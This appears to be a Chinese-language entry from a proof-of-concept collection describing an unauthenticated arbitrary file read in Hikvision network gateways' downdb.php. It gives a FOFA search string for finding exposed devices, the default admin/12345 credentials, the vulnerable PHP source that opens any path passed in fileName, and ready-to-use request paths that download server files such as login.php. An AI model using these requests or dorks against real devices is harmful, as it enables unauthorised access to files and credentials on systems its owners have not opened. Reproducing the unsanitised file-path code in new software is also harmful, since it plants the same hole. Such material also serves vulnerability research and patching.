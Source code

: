 # HIKVISION 联网网关 downdb.php 任意文件读取漏洞

## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

<a-checkbox checked>HIKVISION 联网网关，流媒体管理服务器</a-checkbox></br>

## FOFA

<a-checkbox checked>"杭州海康威视系统技术有限公司 版权所有"</a-checkbox></br>

## 漏洞复现

默认密码：admin/12345

![img](../../../.vuepress/public/img/1628150554555-c84e3f6d-2054-4587-950c-5234bc7a12e8.png)

出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```php
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

验证POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```



![img](../../../.vuepress/public/img/1628152149896-c63bae3a-6cc6-402a-b234-cacb307547fc.png)



